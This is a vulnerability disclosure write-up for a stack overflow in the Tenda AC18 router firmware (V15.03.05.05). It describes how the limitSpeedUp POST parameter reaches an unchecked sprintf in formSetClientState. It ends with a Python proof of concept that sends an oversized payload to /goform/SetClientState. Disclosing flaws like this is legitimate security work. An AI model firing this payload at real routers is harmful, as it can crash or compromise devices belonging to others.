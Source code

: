 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetClientState` function. The `v10` variable receives the `limitSpeedUp` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `limitSpeedUp` can trigger this security vulnerability.

![image-20240306000226211](formSetClientState_limitSpeedUp.assets/image-20240306000226211.png)

![image-20240306000240089](formSetClientState_limitSpeedUp.assets/image-20240306000240089.png)

![image-20240306000256998](formSetClientState_limitSpeedUp.assets/image-20240306000256998.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000

data = {'limitEn':1,"limitSpeedUp": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305223636784](formSetClientState_limitSpeedUp.assets/image-20240305223636784.png)
